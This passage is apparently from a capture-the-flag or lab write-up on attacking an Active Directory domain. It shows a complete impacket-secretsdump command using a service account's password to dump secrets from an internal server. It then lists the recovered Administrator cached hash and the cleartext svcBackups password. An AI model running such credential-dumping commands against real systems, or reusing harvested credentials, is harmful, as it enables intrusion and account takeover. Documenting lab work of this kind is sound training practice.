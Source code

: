 
## With svcScanning user
Service accounts have more privileges than normal domain users. With the `svcScanning` account, we can carry out further attacks such as dumping secrets from the AD machines.

### Dump hashes on the `Server1` machine

$ `proxychains4 -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcScanning:'Password1!'@10.200.113.31`


![](https://lh7-us.googleusercontent.com/docsz/AD_4nXfFUB-EHaHwLam5KaYc9wRAYfVazfbOtAfZS3uUL6YxF4VlKk9hJlURi8ffJQkbx2xpP4ePSOWk42DVC2apfEWeHsyo6eZfpFl4VnMeNt7vUn3L16-K7HQCdZFELpK8-_cK1z69q57NWibfcfHlT3q1_Ot8?key=RYwlcatSjtv71wwEi5xjfQ)


#### Interesting discoveries

> There are a couple of things from this output that are of most interest.

- The Administrator’s NTLM hash.
	- <font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
	- $DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
- The ClearText password for `svcBackups` account.
	- <font color="#00b050">svcBackups@corp.thereserve.loc:</font>
	- q9nzssaFtGHdqUV3Qv6G


**Next step:** [[Dumping secrets from CORPDC]]

